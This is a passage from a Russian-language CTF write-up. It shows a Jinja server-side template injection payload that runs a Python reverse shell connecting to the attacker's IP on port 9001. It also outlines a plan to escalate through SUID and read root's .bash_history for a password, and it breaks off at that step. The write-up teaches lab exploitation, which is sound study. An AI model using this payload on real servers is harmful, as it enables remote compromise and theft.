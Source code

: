 ### Шаг 3) Ввод пейлоада для реверс-шелла

Теперь, когда лимит длины пейлоада увеличен, можно ввести полноценную команду для получения реверс-шелла через SSTI.

Используем следующий пейлоад:

```jinja
{{cycler.__init__.__globals__.os.popen("python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("<ip-адрес>",9001));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'").read()}}
```

**Описание пейлоада**:
- Этот пейлоад использует уязвимость SSTI для выполнения Python-скрипта на сервере.
- Python-скрипт создает TCP-сокет, который подключается к вашему IP-адресу на порт 9001 (замените `<ip-адрес>` на ваш реальный IP-адрес).
- Функция `os.dup2` перенаправляет потоки ввода/вывода/ошибок (stdin, stdout, stderr) через сокет, а `pty.spawn("sh")` запускает интерактивную оболочку `sh`.

---

### Шаг 4) Получение реверс-шелла

Как только пейлоад будет отправлен, сервер выполнит команду и подключится к вашему локальному `ncat` на порт 9001. На этом этапе вы получите реверс-шелл с доступом к системе, на которой запущен уязвимый сервер.

Теперь можно взаимодействовать с удаленной системой через командную оболочку.

---

### Заключение. Часть 1

Таким образом, последовательное выполнение шагов позволяет обойти ограничение длины пейлоада и получить реверс-шелл с помощью уязвимости SSTI. Это предоставляет полный доступ к системе для дальнейшего исследования и эксплуатации.



# Writeup: Linux Administration CTF. Часть 2

## План:

1. Обнаруживаем файл `flag.zip`, но не можем его распаковать из-за недостатка привилегий.
2. Используем SUID-уязвимость для повышения привилегий до root.
3. Пытаемся разархивировать файл от имени root, но для этого требуется пароль.
4. Находим пароль в файле `.bash_history` пользователя root.
5. Используем пароль для распаковки архива и получения флага.

---

## Шаг 1) Обнаружение архива `flag.zip`

После подключения к системе с реверсшеллом, находим файл `flag.zip` в домашней директории пользователя `user1`. Проверяем содержимое директории:
